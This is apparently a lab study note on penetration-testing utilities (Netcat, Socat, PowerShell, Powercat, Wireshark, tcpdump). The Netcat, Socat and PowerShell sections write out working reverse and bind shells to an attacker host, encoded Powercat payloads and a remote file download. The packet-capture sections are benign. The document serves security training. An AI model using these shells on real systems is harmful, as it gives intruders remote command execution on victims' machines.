



<div align='center'>

# **Practical Tools**

</div>

## **Table of Content**

- [**0. Information**](#1-Information)
- [**1. Netcat**](#1-netcat)
    - [**1.1. Client Mode**](#11-client-mode)
    - [**1.2. Server Mode**](#12-server-mode)
    - [**1.3. Transferring Files with Netcat**](#13-transferring-files-with-netcat)
    - [**1.4. Remote Administration with Netcat**](#14-remote-administration-with-netcat)
        - [**1.4.1. Bind Shell**](#141-bind-shell)
        - [**1.4.2. Reverse Shell**](#142-reverse-shell)
- [**2. Socat**](#2-socat)
    - [**2.1. Netcat vs Socat**](#21-netcat-vs-socat)
    - [**2.2. Socat File Transfers**](#22-socat-file-transfers)
    - [**2.3. Socat Reverse Shells**](#23-socat-reverse-shells)
    - [**2.4. Socat Encrypted Bind Shells**](#24-socat-encrypted-bind-shells)
- [**3. PowerShell and Powercat**](#3-powershell-and-powercat)
    - [**3.1. PowerShell File Transfers**](#31-powershell-file-transfers)
    - [**3.2. PowerShell Reverse Shells**](#32-powershell-reverse-shells)
    - [**3.3. PowerShell Bind Shells**](#33-powershell-bind-shells)
    - [**3.4. Powercat**](#34-powercat)
    - [**3.5. Powercat File Transfers**](#35-powercat-file-transfers)
    - [**3.6. Powercat Reverse Shells**](#36-powercat-reverse-shells)
    - [**3.7. Powercat Bind Shells**](#37-powercat-bind-shells)
    - [**3.8. Powercat Stand-Alone Payloads**](#38-powercat-stand-alone-payloads)
- [**4. WireShark**](#4-wireshark)
    - [**4.1. Wireshark Basics**](#41-wireshark-basics)
    - [**4.2. Capture Filters**](#42-capture-filters)
    - [**4.3. Display Filter**](#43-display-filter)
    - [**4.4. Following TCP Streams**](#44-following-tcp-streams)
- [**5. Tcpdump**](#5-Tcpdump)
    - [**5.1. Filtering Traffic**](#51-filtering-traffic)
    - [**5.2. Advanced Header Filtering**](#52-advanced-header-filtering)

## **0. Information**
Kali Linux: 192.168.190.133
Windows10: 192.168.190.10
## **1. Netcat**

**About Netcat:** Netcat is a networking utility with the help of TCP/IP protocol which reads and writes data across network connections.

### **1.1. Client Mode**

Netcat as a client: Netcat can be used as a client by specifying the IP address and port number to which it should connect. It will make a TCP connection to the address specified and then will wait for the user to type in some data which it will then send to the server.

We can use client mode to connect to any TCP/UDP port, allowing us to:
- Check if a port is open or closed.
- Read a banner from the service listening on a port.
- Connect to a network service manually.

Using netcat to check if TCP port 21 (the ftp service) is open on the Windows

```zsh
nc -nv 192.168.190.10 21
```


When we type in some data, it will be sent to the server and the server will respond with some data which will be displayed on the screen.


### **1.2. Server Mode**

On the Windows machine, we can use netcat to set up a server which will listen on a particular port for incoming connections.

```powershell
ncat -nlvp 1308
```

- -l: listen mode
- -v: verbose mode
- -p <port>: port number
- -n: disable DNS name resolution


On the Kali Linux machine, we can use netcat to connect to the server on the Windows machine. 

```bash
nc -nv 192.168.190.10 1308
```


When we type in some data, it will be sent to the server and the server over port 1308.


Similarly, when the listener on the Windows machine sends data back to the Kali Linux machine, it will be displayed on the screen.


### **1.3. Transferring Files with Netcat**

Netcat can also be used to transfer files, both text and binary, from one computer to another

On the Windows machine, we will set up a Netcat listener on port 1308 and redirect any output into a file called `incoming.exe`

```cmd
nc -nlvp 1308 > incoming.exe    
```


On the Kali Linux machine, we will use Netcat to connect to the Windows machine and push the file `wget.exe` to the Windows machine through TCP port 1308.

```bash
nc -nv 192.168.190.10 1308 < wget.exe
```


The connection is received by Netcat on the Windows machine


The file `wget.exe` has been transferred to the Windows machine


### **1.4. Remote Administration with Netcat**

#### **1.4.1. Bind Shell**

The Kali Linux machine will connect to the Windows machine and will be able to execute commands on the Windows machine.

On the Windows machine, we will set up a Netcat listener on port 1308 with -e option to execute `cmd.exe` once the connection is established.

```powershell
nc -nlvp 1308 -e cmd.exe
```


Now Netcat has bound TCP port 4444 to cmd.exe and will redirect any input, output, or error messages from cmd.exe to the network


#### **1.4.2. Reverse Shell**

The Windows machine will connect to the Kali Linux machine and send the command shell to the Kali Linux machine. The Kali Linux machine will then be able to execute commands on the Windows machine.

On the Kali Linux machine, we will set up a Netcat listener on port 1308

```bash
nc -nlvp 1308
```


On the Windows machine, we will use Netcat to connect to the Kali Linux machine and send the command shell to the Kali Linux machine through TCP port 1308.

```powershell
ncat -nv 192.168.190.133 1308 -e cmd.exe
```


Once the connection is established, the Windows will have redirected `cmd.exe` input, output, and
error data streams to the Kali Linux machine on port 1308.

## **2. Socat**

**About Socat:** Socat is a command line based utility that establishes two bidirectional byte streams and transfers data between them. 

### **2.1. Netcat vs Socat**

**As a server:**

```bash
# Netcat
nc -nlvp 1308
# Socat
socat TCP4-LISTEN:1308 STDOUT
```

**As a client:**

```bash
# Netcat
nc -nv 192.168.190.10 1308
# Socat
socat - TCP4:192.168.190.10:1308
```


### **2.2. Socat File Transfers**

The Windows machine will act as a server and the Kali Linux machine will act as a client. The Windows machine want to send the file `secret.txt` to the Kali Linux machine.

From Windows:

```powershell
socat TCP4-LISTEN:1308,fork file:secret.txt
```



`TCP4-LISTEN` option specifies an IPv4 listener, `fork` creates a child process once a connection is made to the listener, which allows multiple connections, and `file`: specifies the name of a file to be transferred

From Kali Linux:

```bash
socat TCP4:1308 file:secret.txt, create
```

`file:` specifies the local file name to save the file to computer, and `create` specifies
that a new file will be created


### **2.3. Socat Reverse Shells**

The Windows machine will act as a server and the Kali Linux machine will act as a client. The Windows machine will send the command shell to the Kali Linux machine.

On the Kal Linux machine, we will set up a Socat listener on port 1307. We will use -d option to increase verbosity.

```bash
socat -d -d TCP4-LISTEN:1307 STDOUT
```

On the Windows machine, we will use Socat to connect to the Kali Linux machine and send the command shell through TCP port 1307.

```powershell
socat TCP4:192.168.190.133:1307 EXEC:'cmd.exe',pipes
```

The `pipes` option is to create a pair of pipes for interprocess communication.




### **2.4. Socat Encrypted Bind Shells**

The Kali Linux machine will connect to the Windows machine and will be able to execute commands on the Windows machine.

Use `openssl` to generate a self-signed certificate and a private key.

- `req`: initiate a new certificate signing request
-newkey: generate a new private key
- `rsa:2048`: use RSA encryption with a 2,048-bit key length.
- `-nodes`: store the private key without passphrase protection
- `-keyout`: save the key to a file
- `-x509`: output a self-signed certificate instead of a certificate request
- `-days`: set validity period in days
- `-out`: save the certificate to a file

```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```


Combine the certificate and the private key into a single `.pem` file.

```bash
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

From Kali-Linux, we will use the `OPENSSL-LISTEN` option to create the listener on port 1308,
`cert=bind_shell.pem` to specify our certificate file, `verify` to disable SSL verification, and `fork`
to spawn a child process once a connection is made to the listener

```bash
sudo socat OPENSSL-LISTEN:1308,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```


On the Windows machine, We will use `-` to transfer data between `STDIO` and the remote host, `OPENSSL` to establish a remote SSL connection to the Windows listener on `192.168.190.133:1308`, and `verify=0` to disable SSL certificate verification

```powershell
socat - OPENSSL:192.168.190.133:1308,verify=0
```


## **3. PowerShell and Powercat**

About PowerShell: PowerShell is a task-based command line shell and scripting language. It is designed
specifically for system administrators and power-users to rapidly automate the administration of
multiple operating systems (Linux, macOS, Unix, and Windows) and the processes related to the
applications that run on them

Windows PowerShell 5.0 runs on the following versions of Windows:
- Windows Server 2016, installed by default
- Windows Server 2012 R2/Windows Server 2012/Windows Server 2008 R2 with Service Pack
1/Windows 8.1/Windows 7 with Service Pack 1 (install Windows Management Framework
5.0 to run it)

Windows PowerShell 4.0 runs on the following versions of Windows:
- Windows 8.1/Windows Server 2012 R2, installed by default
- Windows 7 with Service Pack 1/Windows Server 2008 R2 with Service Pack 1 (install
Windows Management Framework 4.0 to run it)

Windows PowerShell 3.0 runs on the following versions of Windows:
- Windows 8/Windows Server 2012, installed by default
- Windows 7 with Service Pack 1/Windows Server 2008 R2 with Service Pack 1/2 (install
Windows Management Framework 3.0 to run it)

PowerShell maintains an execution policy that determines which type of PowerShell scripts (if
any) can be run on the system. The default policy is "Restricted", which effectively means the
system will neither load PowerShell configuration files nor run PowerShell scripts. We will need to set an "Unrestricted" execution policy on our Windows client machine

```powershell
Set-ExecutionPolicy Unrestricted
```


### **3.1. PowerShell File Transfers**

We will transfer a file from Kali Linux to Windows using PowerShell

From Kali Linux, we will use python to start up a simple http server

```bash
python -m SimpleHTTPServer 80
```

From Windows, we will use PowerShell to download the file `wget.exe` from the Kali Linux machine

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.190.133:1308/wget.exe','C:\Users\Public\wget.exe')"
```

- `-c`: Execute the supplied command (wrapped in double-quotes) as if it were typed at the PowerShell prompt
- `new-object System.Net.WebClient`: Create a new instance of the System.Net.`WebClient` class. The `WebClient` class is used to access resources identified by a URI and it exposes a public method called `DownloadFile`, which requires our two key parameters: a source location, and a target location where the retrieved data will be stored


### **3.2. PowerShell Reverse Shells**

The Windows machine will connect to the Kali Linux machine and send the command shell to the Kali Linux machine. The Kali Linux machine will then be able to execute commands on the Windows machine.

From Kali Linux, we will use `nc` to set up a listener on port 1308

```bash
nc -nlvp 1308
```

From Windows, we will send a PowerShell reverse shell to the Kali Linux machine through TCP port 1308

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.190.133',1308);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```

- `client` variable: the target IP address
- `stream` variable: the TCP stream
- `bytes` variable: the buffer
- `while` loop: read the data from the stream and execute it as a PowerShell command via `iex` (Invoke-Expression)
- `sendback` variable: the output of the command
- `sendback2` variable: the output of the command with the current working directory
- `sendbyte` variable: the output of the command with the current working directory converted to ASCII
- `stream.Write`: write the output of the command with the current working directory to the stream

Turn into an one-liner

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.190.133',1308);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


### **3.3. PowerShell Bind Shells**

The Kali Linux machine will connect to the Windows machine and execute commands on the Windows machine.

From Windows, we will use PowerShell to set up a listener on port 1308

```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',1308);
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '>';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
$listener.Stop();
```

- `listener` variable: the TCP listener and start the listener
- `client` variable: the TCP client connecting to the listener
- `stream` variable: the TCP stream
- `bytes` variable: the buffer
- `while` loop: read the data from the stream and execute it as a PowerShell command via `iex` (Invoke-Expression)
- `sendback` variable: the output of the command
- `sendback2` variable: the output of the command with the current working directory
- `sendbyte` variable: the output of the command with the current working directory converted to ASCII
- `stream.Write`: write the output of the command with the current working directory to the stream

Turn into an one-liner

```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',1308);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '>';    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close();$listener.Stop();
```

From Kali Linux, we will use `nc` to connect to the Windows machine through TCP port 1308

```bash
nc -nv 192.168.190.10 1308
```




### **3.4. Powercat**

About Powercat: Powercat is a PowerShell version of Netcat. Download Powercat from [here](https://github.com/besimorhino/powercat)

Load the Powercat script

```powershell
. .\powercat.ps1
```

### **3.5. Powercat File Transfers**

The Windows machine transfers the file `powercat.ps1` to the Kali Linux machine

From the Kali Linux machine, we will use `nc` to set up a listener on port 1308 and redirect any output into a file called `powercat.ps1`

```bash
nc -nlvp 1308 > powercat.ps1
```

From the Windows machine, we will use Powercat to connect to the Kali Linux machine and push the file `powercat.ps1` to the Kali Linux machine through TCP port 1308

```powershell
powercat -c 192.168.190.133 -p 1308 -i C:\Users\Public\powercat.ps1
```

- `-c`: Client Mode
- `-p`: Port
- `-i`: The file that will be transferred


### **3.6. Powercat Reverse Shells**

The Windows machine will connect to the Kali Linux machine and send the command shell to the Kali Linux machine.

Set up a listener on port 1308 on the Kali Linux machine

```bash
nc -nlvp 1308
```

From the Windows machine, we will use Powercat to to send a reverse shell

```powershell
powercat -c 192.168.190.133 -p 1308 -e cmd.exe
```

- `-e`: The appication to execute once a connection is made to a listening port


### **3.7. Powercat Bind Shells**

The Kali Linux machine will connect to the Windows machine and will be able to execute commands on the Windows machine.

Set up a listener on port 1308 on the Windows machine with an executed command

```powershell
powercat -l -p 1308 -e cmd.exe
```

- `-l`: listener mode

From the Kali Linux machine, we will use netcat to connect to the Windows machine

```bash
nc -nv 192.168.190.10 1308
```


### **3.8. Powercat Stand-Alone Payloads**

Use `-g` option to generate a stand-alone payload

```powershell
powercat -c 192.168.190.133 -p 1308 -e 1308 -g > reverseshell.ps1
```


We also can use `-ge` option to generate a encoded payload that can be executed via `powershell -E`

```powershell
$command = powercat -c 192.168.190.133 -p 1308 -e 1308 -ge
powershell.exe -E $command
```


## **4. WireShark**

About WireShark: Wireshark is a free and open-source packet analyzer. It is used for learning network protocols, analyzing network traffic, and debugging network services. Download Wireshark from [here](https://www.wireshark.org/download.html)

### **4.1. Wireshark Basics**

Wireshark uses `Libpcap` (on Linux) or `Winpcap` (on Windows) libraries in order to capture packets from the network

We can apply capture filters and display filters within Wireshark. Any packets that do not match the filter criteria will be dropped and the remaining data is passed on to the capture engine. The capture engine then dissects the incoming packets, analyzes them, and finally applies any additional display filters before displaying the output

<div align='center'>


</div>

### **4.2. Capture Filters**
We can use capture filters to reduce the amount of captured traffic by discarding any traffic that does not match our filter and narrow our focus to the packets we wish to analyze

Selecting the interface we would like to monitor and entering a capture filter. In this case, we use the `net` filter to only capture traffic on the 192.168.190.0/24 address range


### **4.3. Display Filter**

Use `http` display filter to focus on http protocols


### **4.4. Following TCP Streams**

We can make use of Wireshark’s ability to reassemble a specific session and display it in various formats. To view a particular TCP stream, we can right-click a packet of interest, then select `Follow > TCP Stream`


## **5. Tcpdump**

About Tcpdump: Tcpdump is a command-line packet analyzer. It is used for network troubleshooting, analysis, software and communications protocol development, and education. Download Tcpdump from [here](https://www.tcpdump.org/#latest-release)

Use `-r` option to read packets from a file

```bash
tcpdump -r capture.pcap
```


### **5.1. Filtering Traffic**

**List the IP addresses and ports of the destination host in the capture file**

```bash
tcpdump -n -r capture.pcap | awk -F" " '{print $5}' | sort | uniq -c
```

- `-n`: skip DNS name resolution
- `-r` to read from the packet capture file.


**Filter by source IP address**

```bash
tcpdump -n src host 10.1.1.101 -r capture.pcap
```


**Filter by destination IP address**

```bash
tcpdump -n dst host 10.1.1.101 -r capture.pcap
```


**Filter by port number**

```bash
tcpdump -n port 3199 -r capture.pcap
```


**Print the packet data in both ASCII and HEX format (-X option)**

```bash
tcpdump -nX -r capture.pcap
```


### **5.2. Advanced Header Filtering**

**Look for packets that have the `PSH` and `ACK` flags turn on**

All packets sent and received after the initial 3-way handshake will have the ACK flag set. The PSH flag109 is used to enforce immediate delivery of a packet

The following diagram depicts the TCP header and shows that the TCP flags are defined starting from the 14th byte.


We can see that ACK and PSH are represented by the fourth and fifth bits of the 14th byte, respectively. That will give us 00011000 = 24 in decimal. We can use this value to filter for packets that have the PSH and ACK flags set

```bash
tcpdump -A -n 'tcp[13] = 24' -r capture.pcap
```

- `-A`: Print each packet in ASCII

